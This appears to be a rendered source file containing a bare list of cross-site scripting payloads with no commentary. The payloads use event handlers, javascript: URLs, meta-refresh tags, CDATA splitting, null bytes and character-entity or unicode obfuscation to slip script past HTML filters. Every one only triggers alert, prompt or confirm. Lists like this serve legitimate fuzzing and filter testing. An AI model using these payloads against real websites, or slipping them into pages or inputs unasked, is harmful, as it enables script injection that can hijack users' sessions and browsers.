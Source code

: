 &lt;SCRIPT onreadystatechange=javascript:javascript:alert(1);&gt;&lt;/SCRIPT&gt;

&lt;style onreadystatechange=javascript:javascript:alert(1);&gt;&lt;/style&gt;

&lt;?xml version="1.0"?&gt;&lt;html:html xmlns:html='http://www.w3.org/1999/xhtml'&gt;&lt;html:script&gt;javascript:alert(1);&lt;/html:script&gt;&lt;/html:html&gt;

&lt;embed code=javascript:javascript:alert(1);&gt;&lt;/embed&gt;

&lt;frameset onload=javascript:javascript:alert(1)&gt;&lt;/frameset&gt;

&lt;object onerror=javascript:javascript:alert(1)&gt;

&lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;![CDATA[&lt;IMG SRC="javas]]&lt;![CDATA[cript:javascript:alert(1);"&gt;]]&lt;/C&gt;&lt;X&gt;&lt;/xml&gt;

&lt;IMG SRC=&{javascript:alert(1);};&gt;

&lt;a href="jav&#65ascript:javascript:alert(1)"&gt;test1&lt;/a&gt;

&lt;a href="jav&#97ascript:javascript:alert(1)"&gt;test1&lt;/a&gt;

&lt;iframe srcdoc="&LT;iframe&sol;srcdoc=&amp;lt;img&sol;src=&amp;apos;&amp;apos;onerror=javascript:alert(1)&amp;gt;&gt;"&gt;

&lt;iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00&gt;

&lt;svg&gt;&lt;style&gt;{font-family&colon;'&lt;iframe/onload=confirm(1)&gt;'

&lt;input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&lt;sVg&gt;&lt;scRipt %00&gt;alert&lpar;1&rpar; {Opera}

&lt;img/src=`%00` onerror=this.onerror=confirm(1)

&lt;form&gt;&lt;isindex formaction="javascript&colon;confirm(1)"

&lt;img src=`%00`&NewLine; onerror=alert(1)&NewLine;

&lt;ScRipT 5-0*3+9/3=&gt;prompt(1)&lt;/ScRipT giveanswerhere=?

&lt;script /*%00*/&gt;/*%00*/alert(1)/*%00*/&lt;/script /*%00*/

&#34;&#62;&lt;h1/onmouseover='\u0061lert(1)'&gt;%00

&lt;iframe/src="data:text/html,&lt;svg &#111;&#110;load=alert(1)&gt;"&gt;

&lt;meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/&gt;

&lt;meta http-equiv="refresh" content="0;url=javascript:confirm(1)"&gt;

&lt;form&gt;&lt;a href="javascript:\u0061lert&#x28;1&#x29;"&gt;X

&lt;/script&gt;&lt;img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'&gt;

&lt;img/&#09;&#10;&#11; src=`~` onerror=prompt(1)&gt;

&lt;form&gt;&lt;iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;&gt;

&lt;a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;"&gt;XYZ&lt;/a

&#00;&lt;/form&gt;&lt;input type&#61;"date" onfocus="alert(1)"&gt;

&lt;form&gt;&lt;textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'&gt;
